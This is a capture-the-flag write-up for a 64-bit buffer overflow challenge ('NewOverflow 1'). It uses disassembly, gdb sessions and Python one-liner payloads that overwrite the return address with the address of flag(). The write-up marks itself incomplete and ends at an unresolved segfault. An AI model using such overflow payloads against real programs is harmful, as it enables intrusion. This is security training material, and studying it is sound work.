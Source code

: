 # NewOverflow 1

This challenge is basically a 64-bit Buffer Overflow .What used to be 4 bytes is now 8 bytes.

The only difference is the size of the memory spaces. If we happen to specify an address greater than **0x00007fffffffffff** It will raise an exception.




## Taking control of RIP

From the disassembly of the vuln function we can see that the buffer is at address **rbp-0x40** 
``` assembly
   0x00000000004007cc <+0>:     push   rbp
   0x00000000004007cd <+1>:     mov    rbp,rsp
   0x00000000004007d0 <+4>:     sub    rsp,0x40
   0x00000000004007d4 <+8>:     lea    rax,[rbp-0x40]
   0x00000000004007d8 <+12>:    mov    rdi,rax
   0x00000000004007db <+15>:    mov    eax,0x0
   0x00000000004007e0 <+20>:    call   0x400630 <gets@plt>
   0x00000000004007e5 <+25>:    nop
   0x00000000004007e6 <+26>:    leave  
   0x00000000004007e7 <+27>:    ret    

```
So, we input 0x40 bytes to get to rbp & 0x8 bytes to override rbp + 0x6 bytes to override rip(so we avoid raising an excption)

now, load up gdb and try out your exploit.

``` gdb
  gdb-peda$ r < <(python -c 'print("A"*64+"B"*8+"C"*6)')  
  Starting program: /home/arch3r/p1c0CTF_2019/N3w_0v3rflow/vuln < <(python -c 'print("A"*64+"B"*8+"C"*6)')
  Welcome to 64-bit. Give me a string that gets you the flag: 

  Program received signal SIGSEGV, Segmentation fault.
  Stopped reason: SIGSEGV
  0x0000434343434343 in ?? ()


```
We get control of eip..!

## Scripting the Exploit

We put in the address of the flag() ```\x67\x07\x40\x00\x00\x00\x00\x00```function instead of ```"C"*6``` to change code flow towards our flag() function.

We expect this to give us the flag ...but it doesn't .We end up getting a segfault.
``` bash
  arch3r@1nv4d3r:~/p1c0CTF_2019/N3w_0v3rflow$ python -c 'print("A"*72+"\x67\x07\x40\x00\x00\x00\x00\x00")' | ./vuln
  Welcome to 64-bit. Give me a string that gets you the flag: 
  Segmentation fault (core dumped)
```
Let's inspect this using gdb ..

## Debugging the Exploit

After setting a breakpoint at flag() in gdb ,we see that our exploit did actually override rip correctly and we do end up in the flag() function

``` gdb
  gdb-peda$ r < <(python -c "print 'A'*72 + '\x67\x07\x40\x00\x00\x00\x00\x00'")
  Starting program: /home/arch3r/p1c0CTF_2019/N3w_0v3rflow/vuln < <(python -c "print 'A'*72 + '\x67\x07\x40\x00\x00\x00\x00\x00'")
  Welcome to 64-bit. Give me a string that gets you the flag: 
  Breakpoint 1, 0x0000000000400767 in flag ()

```
lets continue execution till the segfault
```gdb
  Stopped reason: SIGSEGV
  buffered_vfprintf (s=s@entry=0x7ffff7fa76a0 <_IO_2_1_stdout_>, format=format@entry=0x7fffffffdee8 "flag{A_n3w_0v3rflow}\n", args=args@entry=0x7fffffffde08, mode_flags=mode_flags@entry=0x0) at vfprintf-internal.c:2377
  2377    vfprintf-internal.c: No such file or directory.
```

**############################################Incomplete ############################################**

